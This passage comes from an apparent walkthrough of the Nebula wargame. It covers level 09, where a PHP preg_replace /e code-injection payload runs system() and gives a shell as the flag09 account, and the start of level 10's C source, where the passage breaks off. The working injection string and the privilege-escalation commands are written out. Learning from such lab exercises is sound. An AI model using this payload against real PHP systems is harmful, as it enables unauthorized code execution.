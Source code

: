 The `/e` in the first parameter of `preg_replace` is a [PCRE modifier][pcre-modifier]
that instructs `preg_replace` to `eval()` the second parameter as PHP code
after doing the normal substitution of backreferences.

More specifically, the `address@domain.com` component of the file will be
`eval()` as PHP code due to the `\2` backreference.

However, complicating the exploit is the fact that certain characters will be
escaped. Quoting from the documentation:

> Single quotes, double quotes, backslashes (\) and NULL chars will be escaped
> by backslashes in substituted backreferences.

After some experimenting, we end up with the following file that executes with
`system()` the value of the `$use_me` variable, which according to the script
is assigned the value of the second argument to the `flag09` binary.

```shell
level09@nebula:~$ cat /home/level09/text
[email {${system($use_me)}}]
```

Putting the pieces together:

```shell
level09@nebula:~$ /home/flag09/flag09 text /bin/sh
sh-4.2$ whoami
flag09
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

# level 10

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md